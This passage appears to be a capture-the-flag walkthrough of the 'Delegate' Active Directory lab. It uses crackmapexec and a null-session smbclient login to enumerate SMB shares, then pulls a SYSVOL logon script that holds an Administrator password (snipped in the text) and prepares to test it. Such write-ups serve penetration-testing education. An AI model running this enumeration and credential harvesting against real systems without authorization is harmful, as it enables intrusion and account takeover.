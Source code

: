 ```
└─$ crackmapexec smb 10.10.87.35                                   
SMB         10.10.87.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
```

We'll add the DNS name `dc1.delegate.vl` and `delegate.vl` to our `/etc/hosts` file.

Let's look at SMB to see if there are any files that are being hosted that we can exfil to our Kali machine.

```
└─$ smbclient -L 10.10.87.35 -N          

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share
```

Since we have null authentication enabled to SMB, we can enumerate the shares without needing credentials. While the default shares seem to be the only shares on this machine, let's still see if there's anything within `NETLOGON` or `SYSVOL`.

```
smb: \delegate.vl\scripts\> ls
  .                                   D        0  Sat Aug 26 08:45:24 2023
  ..                                  D        0  Sat Aug 26 05:45:45 2023
  users.bat                           A      159  Sat Aug 26 08:54:29 2023

5242879 blocks of size 4096. 1932408 blocks available
smb: \delegate.vl\scripts\> get users.bat
getting file \delegate.vl\scripts\users.bat of size 159 as users.bat (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

I found an interesting `users.bat` file in the startup script folder in `SYSVOL`. Let's pull this down to our local machine to see if it contains any information.

```
└─$ cat users.bat               
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator [...snip...]
```

As you can see from the above, it seems as though we have a user that is accessing a share in their startup script and accessing the backup share in the fileserver as an Administrator.

Assuming that this password is associated with this user, let's run crackmapexec to see if their password is a match.
